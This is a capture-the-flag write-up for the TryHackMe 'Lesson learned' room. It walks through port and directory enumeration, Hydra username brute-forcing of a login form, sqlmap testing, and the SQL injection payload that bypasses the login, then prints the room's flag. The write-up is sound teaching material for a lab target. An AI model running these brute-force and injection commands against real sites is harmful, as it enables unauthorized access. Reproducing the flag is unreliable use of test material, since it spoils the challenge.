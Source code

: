 # Room: Lesson learned

## General Info
- **Room link:** [Lesson learned](https://tryhackme.com/room/lessonlearned)


## Description

This is a relatively easy machine that tries to teach you a lesson, but perhaps you've already learned the lesson? Let's find out.
Treat this box as if it were a real target and not a CTF.
Get past the login screen and you will find the flag. There are no rabbit holes, no hidden files, just a login page and a flag. Good luck!

## Provided Files / Links
- [x] Target Machine IP (10.10.150.35)

## Enumeration / Recon

- Port Enumeration:
`nmap -sV 10.10.150.35`

```
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.4p1 Debian 5+deb11u1 (protocol 2.0)
80/tcp open  http    Apache httpd 2.4.54 ((Debian))
```

- Directory Enumeration

`gobuster dir -u http://10.10.150.35 -w /usr/share/wordlists/SecLists/Discovery/Web-Content/raft-medium-files.txt`

```
/index.php            (Status: 200) [Size: 1223]
/.htaccess            (Status: 403) [Size: 277]
/style.css            (Status: 200) [Size: 342]
/.                    (Status: 200) [Size: 1223]
/.html                (Status: 403) [Size: 277]
/.php                 (Status: 403) [Size: 277]
/.htpasswd            (Status: 403) [Size: 277]
/.htm                 (Status: 403) [Size: 277]
/.htpasswds           (Status: 403) [Size: 277]
/.htgroup             (Status: 403) [Size: 277]
/wp-forum.phps        (Status: 403) [Size: 277]
/.htaccess.bak        (Status: 403) [Size: 277]
/.htuser              (Status: 403) [Size: 277]
/.ht                  (Status: 403) [Size: 277]
/.htc                 (Status: 403) [Size: 277]
```

`gobuster dir -u http://10.10.150.35 -w /usr/share/wordlists/SecLists/Discovery/Web-Content/directory-list-2.3-medium.txt`

```
/manual               (Status: 301) [Size: 313] [--> http://10.10.150.35/manual/]
/server-status        (Status: 403) [Size: 277]
```

There is nothing relevant in the differents files and directories.

## Usernames bruteforce

Given there is a specific verbose error message when submitting a username and password, I will be using Hydra to find valid usernames:

`hydra -L /usr/share/wordlists/SecLists/Usernames/names.txt -p password 10.10.150.35 http-post-form "/:username=^USER^&password=^PASS^:Invalid username and password"  -V -o found_users.txt`

After finding a couple of users, I stopped Hydra.

## SQLi

I used sqlmap to test for SQLi in the login page (with the username `karen`):

`sqlmap -u "http://10.10.173.94/" --data="username=karen&password=" --batch --risk=1 --level=2 --random-agent --current-user`

sqlmap found that the username seems to be injectable:

```
[09:07:31] [WARNING] heuristic (basic) test shows that POST parameter 'username' might not be injectable
[09:07:32] [INFO] POST parameter 'username' appears to be 'AND boolean-based blind - WHERE or HAVING clause' injectable (with --string="Invalid password.")
POST parameter 'username' is vulnerable. Do you want to keep testing the others (if any)? [y/N] N
```

Knowing that, I tried SQLi with the following payload in the username field:

`karen' AND '1'='1' -- `

And I get the flag **THM{aab02c6b76bb752456a54c80c2d6fb1e}**.

